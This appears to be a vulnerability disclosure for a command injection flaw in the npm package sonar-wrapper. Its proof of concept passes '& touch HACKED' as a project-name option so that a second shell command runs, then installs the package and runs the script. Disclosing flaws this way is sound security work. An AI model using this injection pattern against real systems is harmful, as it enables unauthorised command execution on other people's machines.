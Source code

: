 # Description

Command Injection in sonar-wrapper

# Proof of Concept

1. Create the following PoC file:

```
// poc.js
var sw = require("sonar-wrapper");
var options= {'sonar.projectName':'& touch HACKED'};
sw.runAnalisys('./',options, []);
```

2. Execute the following commands in terminal:

```
npm i sonar-wrapper # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output using ls command before and after the execution.
